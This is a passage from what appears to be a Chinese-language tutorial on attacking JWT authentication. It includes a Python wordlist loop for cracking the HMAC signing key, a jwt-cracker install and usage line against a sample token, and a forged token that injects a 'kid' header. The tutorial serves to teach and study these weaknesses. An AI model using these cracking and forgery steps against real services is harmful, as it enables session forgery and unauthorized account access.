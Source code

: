```
                print('found key! --> ' +  key)
                break
            except(jwt.exceptions.InvalidSignatureError):
                print('verify key! -->' + key)
                continue
        else:
            print("key not found!")
```

运行后可以看到，成功爆破了 key 为 **abc123**

[![](https://p3.ssl.qhimg.com/t017d34faaba6bb2cf2.png)](https://p3.ssl.qhimg.com/t017d34faaba6bb2cf2.png)

如果没有字典，可以采取暴力遍历，可以直接使用 npm 安装 **jwt-cracker** , 方便快捷

```
npm install jwt-cracker
```

使用方法：

```
> jwt-cracker "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4iLCJpZCI6MX0.S5iudTeUBkKZa2Ah_MR_JdAsSBUFrnF3kn1FL-Cvsks" "abcde0123456" 6
```

[![](https://p3.ssl.qhimg.com/t0121e9816168a5b597.png)](https://p3.ssl.qhimg.com/t0121e9816168a5b597.png)

篡改 jwt header，kid 指定攻击
----------------------

kid 即为 key ID ，存在于 jwt header 中，是一个可选的字段，用来指定加密算法的密钥

[![](https://p0.ssl.qhimg.com/t01b4d3a2c6c152cf54.png)](https://p0.ssl.qhimg.com/t01b4d3a2c6c152cf54.png)

如图，在头部注入新的 kid 字段，并指定 HS256 算法的 key 为 1，生成新的 jwt_json

```
jwt.encode({"name":"admin","id":1},key="1",algorithm='HS256',headers={"kid":"1"})
```

[![](https://p1.ssl.qhimg.com/t016e09a59bbfd92e4a.png)](https://p1.ssl.qhimg.com/t016e09a59bbfd92e4a.png)

验证没有问题：

[![](https://p5.ssl.qhimg.com/t01627148caad336feb.png)](https://p5.ssl.qhimg.com/t01627148caad336feb.png)

如果 server 端开启了头部审查，那么此方法也将没有效果

另外，可以构造 kid 进行 SQL 注入、任意文件读取、命令执行等攻击，但是除了 CTF 中会有这种强行弱智写法，实际案例可以说是并不存在，实用性极其低，故不再赘述。

小结
--

以上四种攻击方式可以说是涵盖了已知所有的针对 jwt 的利用，还有一部分没有实际用处或者根本就不存在的东西，没有必要去浪费笔墨，读者也没有必要来浪费时间看。